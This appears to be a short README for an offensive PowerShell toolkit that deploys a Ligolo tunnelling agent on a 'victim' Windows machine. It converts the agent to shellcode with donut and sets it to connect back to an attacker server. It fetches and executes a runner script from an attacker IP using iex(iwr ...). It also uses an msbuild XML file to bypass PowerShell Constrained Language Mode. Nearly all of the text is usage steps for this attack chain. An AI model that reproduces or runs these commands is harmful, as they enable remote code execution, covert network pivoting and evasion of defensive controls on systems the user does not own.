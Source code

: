 ## Powershell Shellcode Runner 
Make sure to convert `agent.exe` of Ligolo to shellcode:
- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

Make sure you are running as x64 bit process before running: 

Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

Invoke it: 
- `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

*NOTE: make sure both ligolo.ps1 and agent.bin in the same directory, then serve them by simply using python server*.

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare `ligolo.ps1` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
